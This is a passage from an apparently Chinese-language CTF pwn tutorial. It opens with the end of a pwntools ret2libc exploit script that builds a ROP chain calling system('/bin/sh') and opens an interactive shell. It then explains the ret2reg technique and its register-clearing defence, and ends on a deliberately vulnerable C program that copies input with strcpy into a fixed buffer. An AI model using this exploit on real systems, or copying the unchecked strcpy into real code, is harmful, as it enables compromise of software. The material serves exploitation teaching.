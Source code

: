 ```Plain
libc=LibcSearcher('write',recv)
base=recv-libc.dump('write')
sys=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
payload=flat(b'a'*0x88,p64(pop_rdi),p64(bin_sh),p64(0xdeadbeef),p64(sys))
p.sendline(payload)
p.interactive()
```

  

### **ret2reg**

##### **原理**

1. 查看栈溢出返回时哪个寄存器指向缓冲区空间。
    
2. 查找对应的call 寄存器或者jmp 寄存器指令，将EIP设置为该指令地址。
    
3. 将寄存器所指向的空间上注入shellcode（确保该空间是可以执行的，通常是栈上的）
    

  

##### **利用思路**

- 分析和调试汇编，查看溢出函数返回时哪个寄存器指向缓冲区地址
    
- 向寄存器指向的缓冲区中注入shellcode
    
- 查找call 该寄存器或者jmp 该寄存器指令，并将该指令地址覆盖ret
    

##### **防御方法**

在函数ret之前，将所有赋过值的[寄存器](https://so.csdn.net/so/search?q=%E5%AF%84%E5%AD%98%E5%99%A8&spm=1001.2101.3001.7020)全部复位，清0，以避免此类漏洞

  

#### **Example**

此类漏洞常见于strcpy字符串拷贝函数中。

##### **源程序**

```C
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
    char buffer[512];
    strcpy(buffer, input);
}
int main(int argc, char **argv) {
    evilfunction(argv[1]);
    return 0;
}
```
